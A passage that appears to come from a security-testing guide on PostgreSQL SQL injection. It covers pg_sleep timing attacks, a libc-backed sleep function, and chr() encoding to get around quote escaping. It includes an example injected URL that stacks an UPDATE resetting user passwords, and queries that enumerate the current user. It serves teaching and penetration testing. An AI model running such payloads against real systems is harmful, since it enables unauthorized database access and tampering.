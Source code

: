 - Extract a substring from a given string
`SUBSTR(str,index,offset)`

- String representation with no single quotes
`CHR(104)||CHR(101)||CHR(108)||CHR(108)||CHR(111)`

Starting at version 8.2, PostgreSQL introduced a built-in function, `pg_sleep(n)`, to make the current session process sleep for `n` seconds. This function can be leveraged to execute timing attacks (discussed in detail at [Blind SQL Injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection)).

In addition, you can easily create a custom `pg_sleep(n)` in previous versions by using libc:

- `CREATE function pg_sleep(int) RETURNS int AS '/lib/libc.so.6', 'sleep' LANGUAGE 'C' STRICT`

### Single Quote Unescape

Strings can be encoded, to prevent single quotes escaping, by using `chr()` function.

- `chr(n)`: Returns the character whose ASCII value corresponds to the number `n`
- `ascii(n)`: Returns the ASCII value which corresponds to the character `n`

Let's say you want to encode the string 'root':

```sql
select ascii('r')
114
select ascii('o')
111
select ascii('t')
116
```

We can encode 'root' as:

`chr(114)||chr(111)||chr(111)||chr(116)`

#### Example

`http://www.example.com/store.php?id=1; UPDATE users SET PASSWORD=chr(114)||chr(111)||chr(111)||chr(116)--`

### Attack Vectors

#### Current User

The identity of the current user can be retrieved with the following SQL SELECT statements:

```sql
SELECT user
SELECT current_user
SELECT session_user
SELECT usename FROM pg_user
SELECT getpgusername()
```

##### Examples
